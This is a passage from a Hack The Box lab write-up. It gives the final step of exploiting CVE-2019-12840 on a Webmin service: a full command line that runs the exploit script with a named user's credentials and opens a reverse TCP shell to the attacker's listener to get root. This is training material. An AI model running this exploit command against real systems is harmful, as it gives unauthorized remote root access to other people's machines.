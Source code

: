 We can either use the script to inject commands or we can set the ``-lhost`` and ``-lport`` parameters to our Hack The Box IP and a listener port of our choosing to spawn a reverse TCP connection.

![img](assets/listner.png)

Once our listener is started, we just need to run the script as instructed with ``python CVE-2019-12840 -u https://[target IP]:10000 -U Matt -P computer2008 -lhost [your IP] -lport 4444`` to gain access. 

![img](assets/script.png)

Now we can get our root flag and complete the machine.

![img](assets/root.png)
